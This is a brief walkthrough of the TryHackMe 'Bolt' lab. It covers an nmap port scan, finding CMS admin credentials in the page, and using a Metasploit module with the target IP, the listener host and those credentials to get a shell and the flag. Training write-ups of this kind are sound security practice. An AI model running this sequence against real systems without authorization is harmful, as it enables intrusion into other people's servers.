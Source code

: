 # Write-up: Bolt ([TryHackMe](https://tryhackme.com/room/bolt))

## Description:

In this challenge, we analyze a CMS running on a non-standard port. After gaining access to the admin panel and identifying a vulnerable version, we exploit it using Metasploit and retrieve the flag.

## Scanning:
Full port scan:
```python
nmap -sC -sV -p- -T4 10.10.43.46
```
Open ports:
```python
22/tcp — SSH

80/tcp — HTTP

8000/tcp — HTTP (CMS interface)
```
## Web Exploration:

CMS is accessible on port 8000. On the page, we can easily find username and password (likely in source code or comments).

## Admin Access:
Admin panel is located at:
```python
http://10.10.43.46/bolt/
```
We log in using the found credentials and view the CMS version inside the dashboard.

## Exploit Research:

* Check exploit-db.com for vulnerabilities by version.

* Find a suitable EDB-ID.

In Metasploit:
```python
msfconsole
```
Search for the exploit:

```python
search bolt 0.0.0
```
Select and configure:
```python
use 0
set RHOSTS 10.10.43.46
set LHOST 10.10.10.10
set USERNAME bolt
set PASSWORD boltadmin123
exploit
```
## Result:
We gain shell access and capture the flag.
